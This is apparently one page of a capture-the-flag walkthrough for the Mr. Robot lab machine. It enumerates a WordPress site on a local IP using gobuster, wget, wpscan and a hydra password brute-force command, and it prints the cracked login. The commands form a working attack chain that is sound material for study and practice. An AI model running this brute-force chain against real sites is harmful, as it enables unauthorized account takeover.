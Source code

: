🕵️ Enumeration – Mr. Robot

Now that we know HTTP (port 80) is open, we'll begin enumeration of the web server and underlying application — primarily WordPress.

---

## 🌐 1. Access the Website

Visit:
```

[http://192.168.1.105](http://192.168.1.105)

````

### 🔍 Homepage
- Displays a Mr. Robot-themed landing page
- "Hello friend" message
- `robot.jpg`, `fsociety.dic` hints are hidden

---

## 🧾 2. Analyze Source Code

Inspect the HTML source of the homepage:
- May reveal comments
- Links to potential hidden files or directories

---

## 📂 3. Directory Bruteforce with Gobuster

```bash
gobuster dir -u http://192.168.1.105 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -o gobuster.txt
````

✅ Results (sample):

```
/robots.txt
/license
/wp-admin/
/wp-content/
/wp-includes/
/readme
```

---

## 📑 4. robots.txt & Wordlists

Visit:

```
http://192.168.1.105/robots.txt
```

Reveals:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Download both:

```bash
wget http://192.168.1.105/fsocity.dic
wget http://192.168.1.105/key-1-of-3.txt
```

📌 `fsocity.dic` is a huge wordlist — contains duplicates, clean it:

```bash
sort fsocity.dic | uniq > wordlist.txt
```

---

## 🛠️ 5. WordPress Scan with WPScan

```bash
wpscan --url http://192.168.1.105 --enumerate u
```

✅ Finds:

* WordPress version: 4.3.1 (vulnerable)
* User: `elliot`

---

## 🔐 6. Password Brute Force with Hydra

Using the cleaned wordlist:

```bash
hydra -l elliot -P wordlist.txt 192.168.1.105 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location" -V
```

✅ Eventually cracks:

```
elliot:ER28-0652
```

---

## 🧠 Summary

| Item Discovered | Value            |
| --------------- | ---------------- |
| WordPress Login | `/wp-login.php`  |
| Username        | `elliot`         |
| Password        | `ER28-0652`      |
| File Found      | `key-1-of-3.txt` |
| Wordlist Found  | `fsocity.dic`    |

---

📂 Proceed to [`exploitation.md`](./exploitation.md) to log in and exploit the WordPress site for a reverse shell.
